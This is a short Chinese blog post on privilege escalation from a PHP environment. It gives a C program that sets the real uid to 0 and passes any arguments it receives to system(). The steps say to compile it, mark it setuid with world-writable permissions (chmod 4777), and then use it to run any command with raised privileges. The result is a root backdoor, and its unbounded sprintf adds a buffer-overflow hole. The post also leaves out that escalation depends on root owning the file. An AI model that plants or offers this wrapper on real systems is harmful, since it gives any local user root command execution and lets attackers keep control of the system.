 ```yaml
---
layout: post
title:  "PHP提权"
---
```


php运行环境本身有权限限制，有些命令即使关闭安全模式也无法运行，下面通过C来实现提权：

{% highlight c %}
/*
 PHP提权
 Mail : malu#malu.me
*/
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

int main(int argc, void **argv){
        if(argc<2){
                return 0;
        }
        uid_t uid ,euid,i;
        uid = 0;
        euid = geteuid();
        char execname[10240];
        //printf("my uid :%u\n",getuid());
        //printf("my euid :%u\n",geteuid());
        if(setreuid(euid, uid)){
                perror("setreuid");
        }else{
                //printf("after uid :%u\n",getuid()); 
                //printf("after euid :%u\n",geteuid()); 
                sprintf(execname, "%s",argv[1]);
                for(i=2;i<argc;i++){
                        sprintf(execname, "%s %s",execname,argv[i]);
                }
                system(execname);
                return 0;
        }
}
{% endhighlight %}

把以上C代码编译，并赋予s权限：

	gcc a.c
	chmod 4777 a.out

接下来就可以通过a.out来提权执行任何命令了。